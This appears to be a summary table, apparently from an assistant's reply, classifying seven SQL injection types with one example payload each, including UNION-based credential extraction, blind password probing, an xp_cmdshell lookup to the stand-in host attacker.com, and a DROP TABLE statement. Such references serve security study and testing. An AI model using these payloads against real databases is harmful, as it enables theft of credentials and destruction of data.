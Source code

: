
### **Summary Table**

| Type                    | Method                            | Example Payload                                           |
| ----------------------- | --------------------------------- | --------------------------------------------------------- |
| **Error-Based**         | Exploits error messages           | `' OR 1=CONVERT(int, (SELECT @@version))--`               |
| **Union-Based**         | Uses `UNION` to merge queries     | `' UNION SELECT 1, username, password FROM users--`       |
| **Boolean-Based Blind** | Tests true/false conditions       | `' AND (SELECT SUBSTRING(password,1,1) FROM users)='a'--` |
| **Time-Based Blind**    | Induces delays                    | `' AND IF(1=1, SLEEP(5), 0)--`                            |
| **Out-of-Band**         | Exfiltrates via external channels | `'; EXEC xp_cmdshell('nslookup attacker.com')--`          |
| **Second-Order**        | Stored input executed later       | Username:`admin'--`                                       |
| **Stacked Queries**     | Executes multiple statements      | `'; DROP TABLE users;--`                                  |

Would you like a deeper dive into any specific type or its exploitation?
